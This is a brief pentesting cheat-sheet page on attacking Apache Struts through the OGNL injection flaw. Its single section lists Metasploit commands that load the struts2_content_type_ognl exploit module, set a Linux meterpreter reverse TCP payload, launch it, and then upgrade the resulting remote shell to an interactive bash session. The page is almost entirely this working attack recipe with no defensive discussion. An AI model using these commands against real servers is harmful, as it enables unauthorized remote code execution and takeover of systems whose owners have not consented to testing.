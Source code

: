 ```yaml
---
title: Apache Struts Pentesting
desc: 
tags: [Apache, OGNL, Struts]
alts: []
render_with_liquid: false
---
```


## 1. Struts2 OGNL Elavasion

1. **Use Metasploit**

    ```sh
    msfconsole
    msf > use multi/http/struts2_content_type_ognl
    msf > set payload linux/x86/meterpreter/reverse_tcp
    msf > exploit

    meterpreter > shell
    SHELL=/bin/bash script -q /dev/null
    ```